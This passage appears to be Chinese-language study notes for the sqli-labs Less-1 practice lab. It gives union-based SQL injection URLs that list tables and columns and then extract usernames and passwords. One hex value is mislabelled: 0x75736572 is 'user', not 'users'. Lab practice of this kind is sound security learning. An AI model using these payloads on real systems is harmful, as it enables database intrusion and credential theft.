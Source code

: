 group_concat()：从分组后的字段中选出函数内的字段值

![image-20211210201058070](https://gitee.com/xxb667/img/raw/master/img/image-20211210201058070.png)

#### 查表

```
http://192.168.81.135/sqli/Less-1/?id=0' union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 0,1--+
```

0x7365637572697479：security的16进制

limit后面的数字

改变0的数字即可查看security数据库中的表

![image-20211210201724638](https://gitee.com/xxb667/img/raw/master/img/image-20211210201724638.png)

![image-20211210201734926](https://gitee.com/xxb667/img/raw/master/img/image-20211210201734926.png)

#### 查看所有表

```
http://192.168.81.135/sqli/Less-1/?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+
```

![image-20211210201930965](https://gitee.com/xxb667/img/raw/master/img/image-20211210201930965.png)

#### 查询列信息

其中table_name=0x75736572

0x75736572：16进制的users

```
http://192.168.81.135/sqli/Less-1/?id=-1' union select 1,2,column_name from information_schema.columns where table_name=0x75736572 --+
```

![image-20211211132916786](https://gitee.com/xxb667/img/raw/master/img/image-20211211132916786.png)

#### 查看所有列信息

```
http://192.168.81.135/sqli/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x75736572 --+
```

所有列信息在1行显示

![image-20211211133116108](https://gitee.com/xxb667/img/raw/master/img/image-20211211133116108.png)

#### 查询一个账号和密码

```
http://192.168.81.135/sqli/Less-1/?id=-1' union select 1,2,concat_ws('~',username,password) from security.users limit 1,1 --+
```

